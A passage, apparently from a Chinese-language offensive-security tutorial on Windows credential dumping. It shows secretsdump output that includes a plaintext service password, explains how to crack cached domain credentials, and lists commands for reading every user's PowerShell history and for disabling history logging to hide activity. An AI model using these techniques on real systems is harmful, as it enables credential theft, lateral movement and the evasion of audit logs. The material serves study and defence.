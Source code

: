 ```
dpapi_userkey:0x828326418633117212de44bcda10806fc6765d4a
[*] NL$KM 
 0000   0B BC 2E DB A1 A7 E2 42  56 6D B8 4B 5A 37 79 A4   .......BVm.KZ7y.
 0010   53 51 75 6D 64 7F 9A BF  DC BF C2 83 F4 64 02 A6   SQumd........d..
 0020   5E E8 53 AB E5 4B 35 A4  5B 19 7E 97 E0 CA 32 6C   ^.S..K5.[.~...2l
 0030   77 68 E8 F1 C0 54 AD 7B  03 F7 BE 59 2E 59 C3 93   wh...T.`{`...Y.Y..
NL$KM:0bbc2edba1a7e242566db84b5a3779a45351756d647f9abfdcbfc283f46402a65ee853abe54b35a45b197e97e0ca326c7768e8f1c054ad7b03f7be592e59c393
[*] _SC_mysql 
(Unknown User):Solo1234!
[*] Cleaning up...
```

上面的 `Dumping cached domain logon information` 部分包含了域缓存凭证，Domain Cached Credentials。为了[破解它们](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-and-cracking-mscash-cached-domain-credentials)，需要以 `$DCC2$10240#username#hash` 形式进行保存，然后利用 hashcat。

`$MACHINE.ACC` 部分包含计算机账户密码（用十六进制编码），以及 NT 哈希值。

`DefaultPassword` 部分包含自动登录密码。为了获得域名和用户名，你需要检查注册表键 `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon` 的`DefaultDomainName` 和 `DefaultUserName` 值。

`DPAPI_SYSTEM` 部分包含系统的主DPAPI密钥，这些密钥允许[解密用户文件](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/dpapi-extracting-passwords)。

`NK$LM` 给我们提供了[用于加密域名缓存凭证的密钥](https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/dumping-lsa-secrets-on-nt5-x64/)，但由于 secretsdump 已经解密了它们，所以只能作为信息参考。

最后，格式为`_SC_&lt;service&gt;`的条目是表示运行服务的用户的密码。在这个例子中，是 `mysql` 服务。不知道服务用户的用户名，但我们可以在计算机中查看。

> Show user account that runs the mysql service
<pre><code class="lang-powershell">PS C:\&gt; Get-WmiObject win32_service -Filter "name='mysql'" | select -ExpandProperty startname
CONTOSO\han
</code></pre>

**<a class="reference-link" name="Powershell%20history"></a>Powershell history**

除了 LSASS 进程和注册表，你还可以在其他地方搜索凭证，比如用户的 Powershell 历史。你可以使用以下命令来定位和读取 Powershell 历史。

> Get the Powershell history path of the current users.

```
(Get-PSReadlineOption).HistorySavePath
```

> Check the Powershell history of all users

```
Get-ChildItem C:\Users\*\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

另外，作为一个提示，你可能想使用以下命令来避免在 Powershell 历史中存储你自己的命令。

> Disabling Powershell history

```
Set-PSReadlineOption -HistorySaveStyle SaveNothing
```


[dc01]: PS C:\Users\Administrator\Documents&gt; whoami
[dc01]: PS C:\Users\Administrator\Documents&gt; hostname